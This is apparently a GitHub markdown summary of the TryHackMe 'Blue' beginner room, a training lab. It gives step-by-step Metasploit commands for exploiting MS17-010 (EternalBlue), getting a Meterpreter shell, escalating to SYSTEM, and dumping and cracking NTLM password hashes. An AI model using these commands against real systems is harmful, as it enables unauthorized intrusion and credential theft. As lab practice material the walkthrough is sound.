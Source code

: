 # 🔷 TryHackMe - Blue (Beginner Metasploit Room)

This markdown summarizes the TryHackMe room **Blue**, designed to help beginners practice basic recon, exploitation, privilege escalation, and post-exploitation using Metasploit.

---

## 🧭 Task 1 - Recon

### 🖼️ EternalBlue Poster (TryHackMe Style)

![Eternal Blue Poster](https://github.com/user-attachments/assets/76125b41-b1e2-4220-b324-2e4fe3a81881)

> This stylized artwork was created by the TryHackMe community to highlight the EternalBlue vulnerability used in this room.


### Objective:
Scan and identify the exploit the target machine is vulnerable to.

> ⚠️ Note:  
> The target machine does **not** respond to ICMP (ping). Give it a few minutes to boot up after starting.

### 📌 Instructions:
- Start the AttackBox (top of the page)
- Start the Machine (Split-screen view recommended)
- Perform an initial scan to determine services and versions

**Nmap Basic Scan Example:**
```bash
nmap -sV -p- <target-ip>
```

Once a Windows OS and port 445 are identified, you may consider checking for:
- **SMB vulnerabilities** like **MS17-010 (EternalBlue)**

---

## 💥 Task 2 - Gain Access

### Objective:
Use Metasploit to exploit the vulnerable service and gain a Meterpreter session.

### 📌 Exploit Example:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
set LHOST <your-ip>
run
```

After exploitation, you should receive a Meterpreter shell:
```bash
sessions
sessions -i 1
```

---

## 🔼 Task 3 - Escalate

### Objective:
Escalate your privileges on the system and upgrade the shell if needed.

### 📌 Useful Meterpreter Commands:
```bash
getuid
getpid
sysinfo
```

If in a limited shell:
```bash
load priv
getsystem
```

Or migrate to another process:
```bash
ps
migrate <PID>
```

---

## 🔓 Task 4 - Cracking

### Objective:
Dump password hashes and crack a **non-default user’s password**.

### 📌 Example:
```bash
hashdump
```

Copy the NTLM hash and use **John the Ripper** or **hashcat**:
```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

---

## 🏁 Task 5 - Find Flags!

### Objective:
Find 3 “flags” that represent important parts of a Windows machine.

> These are not standard CTF-style flags — they're key files in Windows used for system identification or config purposes.

### 📌 Common Places to Look:
1. **Desktop** of compromised users
2. **System directory**
3. **Registry or environment variables**

Use:
```bash
search -f *.txt
```

---

## 📚 Additional Info

- Sequel Room: [Ice](https://tryhackme.com/room/ice)
- Third Room: [Blaster](https://tryhackme.com/room/blaster)
- VM Download: [Blue Offline](https://darkstar7471.com/resources.html)

Follow @darkstar7471 on Twitter for updates and future rooms!

🎨 Artwork by: **Varg**

---

## ✅ Summary

| Phase          | Goal                                |
|----------------|-------------------------------------|
| Recon          | Discover exposed services           |
| Exploitation   | Use Metasploit to exploit SMB vuln  |
| Post-Access    | Gain Meterpreter shell              |
| Escalation     | Use built-in commands for SYSTEM    |
| Credential Dump| Extract & crack user credentials    |
| Flag Hunting   | Find key Windows files              |

Perfect for beginners to build confidence with real-world Windows exploitation using Metasploit!
